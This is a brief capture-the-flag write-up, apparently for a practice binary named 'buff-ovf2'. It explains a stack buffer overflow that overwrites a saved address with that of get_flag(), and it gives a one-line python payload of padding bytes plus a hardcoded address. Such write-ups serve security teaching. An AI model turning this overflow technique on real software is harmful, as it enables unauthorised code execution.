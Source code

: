 # Solution

The function address on the stack needs to be overwritten with the address of `get_flag()`.
Before reaching that, the payload needs to pass through some local variables and the EBP.

```sh
python3 -c 'import sys; sys.stdout.buffer.write(b"A"*41 + b"\xed\x85\x04\x08")' | ./buff-ovf2
```
